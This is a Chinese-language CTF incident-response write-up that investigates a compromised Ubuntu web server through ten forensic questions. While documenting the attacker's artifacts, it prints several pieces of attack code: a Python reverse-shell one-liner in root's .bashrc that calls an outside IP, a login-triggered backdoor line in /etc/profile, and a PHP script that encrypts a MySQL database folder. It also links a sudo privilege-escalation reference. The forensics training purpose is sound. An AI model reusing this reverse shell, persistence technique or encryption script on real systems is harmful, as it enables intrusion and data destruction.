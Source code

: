 ## 1

攻击者通过什么密码成功登录了网站的后台？提交密码字符串的小写md5值，

根目录有一个流量包

![image-20241208215647959](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241208215647959.png)

302跳转成功登录，密码就是`Aa12345^`

## 2

攻击者在哪个PHP页面中成功上传了后门文件？例如upload.php页面，上传字符串"upload.php"的小写md5值，

![image-20241208215802448](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241208215802448.png)

`pluginmgr.php`文件

```
flag{b05c0be368ffa72e6cb2df7e1e1b27be}
```

## 3

找到攻击者上传的webshell文件，提交该文件的小写md5值，

![image-20241208220451678](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241208220451678.png)

```shell
root@ubuntu18:/var/www# md5sum /var/www/html/plugins/cpg.php
a097b773ced57bb7d51c6719fe8fe5f5  /var/www/html/plugins/cpg.php
```

```
flag{a097b773ced57bb7d51c6719fe8fe5f5}
```

## 4

攻击者后续又下载了一个可执行的后门程序，提交该文件的小写md5值，

![image-20241208220608217](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241208220608217.png)

```shell
root@ubuntu18:/var/www/html/plugins# cd '.       '
root@ubuntu18:/var/www/html/plugins/.       # ls -lh
total 4.0K
-rwxrwxrwx 1 www-data www-data 250 Nov 11 13:41 is.world
root@ubuntu18:/var/www/html/plugins/.       # md5sum is.world
ee279c39bf3dcb225093bdbafeb9a439  is.world
```

## 5

攻击者创建了后门用户的名称是？例如attack恶意用户，上传字符串"attack"的小写md5值，

```shell
root@ubuntu18:/var/log# grep -n -H -a -i "useradd" ./auth.log 
./auth.log:1:Oct  8 03:05:55 ubuntu18 useradd[1053]: new group: name=ubuntu18, GID=1000
./auth.log:2:Oct  8 03:05:55 ubuntu18 useradd[1053]: new user: name=ubuntu18, UID=1000, GID=1000, home=/home/ubuntu18, shell=/bin/bash
./auth.log:3:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'adm'
./auth.log:4:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'cdrom'
./auth.log:5:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'sudo'
./auth.log:6:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'dip'
./auth.log:7:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'plugdev'
./auth.log:8:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'lxd'
./auth.log:9:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'adm'
./auth.log:10:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'cdrom'
./auth.log:11:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'sudo'
./auth.log:12:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'dip'
./auth.log:13:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'plugdev'
./auth.log:14:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'lxd'
./auth.log:135:Apr 18 03:23:01 ubuntu18 useradd[1632]: new user: name=mysql, UID=111, GID=116, home=/nonexistent, shell=/bin/false
./auth.log:182:Nov 18 23:24:19 ubuntu18 useradd[4196]: new user: name=knowledgegraphd, UID=0, GID=0, home=/home/knowledgegraphd, shell=/bin/bash
./auth.log:183:Nov 18 23:24:19 ubuntu18 useradd[4196]: add 'knowledgegraphd' to group 'root'
./auth.log:184:Nov 18 23:24:19 ubuntu18 useradd[4196]: add 'knowledgegraphd' to shadow group 'root'
```

`knowledgegraphd`用户加入root组，可疑用户

或者查看passwd文件，观察uid为0的用户

```
cat /etc/passwd | awk -F: '$3==0{print $1}'
```

## 6

攻击者创建了一个持久化的配置项，导致任意用户登录就会触发后门的连接。提交该配置项对应配置文件的小写md5值，

`/etc/profile` 是Linux系统中一个重要的配置文件，它属于系统的全局环境配置文件。这个文件在每次用户登录时被执行，用于配置系统的全局环境变量和启动脚本。

```shell
root@ubuntu18:/etc/init.d# cat /etc/profile

/var/www/html/plugins/".       "/is.world &

root@ubuntu18:/var/lib/mysql# md5sum /etc/profile
65bf3e4a9ac90d75ec28be0317775618  /etc/profile
```

## 7

攻击者创建了一个持久化的配置项，导致只有root用户登录才会触发后门的连接。提交该配置项对应配置文件的小写md5值，

```shell
root@ubuntu18:/root# cat .bashrc
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.221.70.199",9919));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
root@ubuntu18:/root# md5sum .bashrc
4acc9c465eeeb139c194893ec0a8bcbc  .bashrc=
```

## 8

攻击者加密了哪个数据库？提交数据库的文件夹名，例如user数据库对应存放位置为user文件夹，上传字符串"user"的小写md5值，

查看/var/lib/mysql文件夹，发现 clockup.php 文件

```php
<?php
$currentDate = date("Y-m-d");
$key = md5($currentDate);
$iv = substr(hash('sha256', "DeepMountainsGD"), 0, 16);
$filePath = "/var/lib/mysql/JPMorgan@0020Chase";
$files = scandir($filePath);
foreach ($files as $file) {
    if ($file != "." && $file != "..") {
        $fullPath = $filePath . '/' . $file;
        $content = file_get_contents($fullPath);
        $encryptedContent = openssl_encrypt($content, 'aes-256-cbc', $key, 0, $iv);
        file_put_contents($fullPath, $encryptedContent);
    }
}
?>
```

JPMorgan@0020Chase文件夹被加密

## 9

解密数据库，提交Harper用户对应Areer的值。提交Areer值的小写md5值，

```shell
root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# php -r 'echo date("Y-m-d");'
2024-04-30
root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# php -r 'echo md5(date("Y-m-d"));'
1342d69a84b3aa4ae4f9c7c359417e80
root@ubuntu18:/var/lib/mysql/JPMorgan@0020Chase# php -r 'echo substr(hash('sha256', "DeepMountainsGD"), 0, 16);'
c8203eb05fa13ebf
```

解密脚本

```php
<?php
$currentDate = date("Y-m-d");
$key = md5('2023-11-18');
$iv = substr(hash('sha256', "DeepMountainsGD"), 0, 16);
$filePath = "JPMorgan@0020Chase";
$files = scandir($filePath);
foreach ($files as $file) {
    if ($file != "." && $file != "..") {
        $fullPath = $filePath . '/' . $file;
        $content = file_get_contents($fullPath);
        $decryptedContent = openssl_decrypt($content, 'aes-256-cbc', $key, 0, $iv);
        file_put_contents($fullPath, $decryptedContent);
    }
}
?>
```

成功解密数据库之后，找到数据库的密码

```php
$CONFIG['dbtype'] =	  'pdo:mysql';			// Your database type
$CONFIG['dbserver'] =	  'localhost';			// Your database server
$CONFIG['dbuser'] =	  'root';			// Your database username
$CONFIG['dbpass'] =	  'mysql123';			// Your database password
$CONFIG['dbname'] =	  'mirage';			// Your database name

// DATABASE TABLE NAMES PREFIX
$CONFIG['TABLE_PREFIX'] =		   'cpg16x_';
```

```
mysql> SELECT * FROM UserIdentity WHERE User = 'Harper';
+------+--------+-------+
| No   | User   | Areer |
+------+--------+-------+
| 14   | Harper | Chef  |
+------+--------+-------+
```

```
Chef
```

## 10

因为什么文件中的漏洞配置，导致了攻击者成功执行命令并提权。提交该文件的小写md5值，

sudoers文件配置错误

```shell
root    ALL=(ALL:ALL) ALL
www-data ALL=(root) NOPASSWD: /bin/systemctl status apache2.service
```

```shell
root@ubuntu18:/root# md5sum /etc/sudoers
6585817513b0ea96707ebb0d04d6aeff  /etc/sudoers
```

提权方法

https://gtfobins.github.io/gtfobins/systemctl/#sudo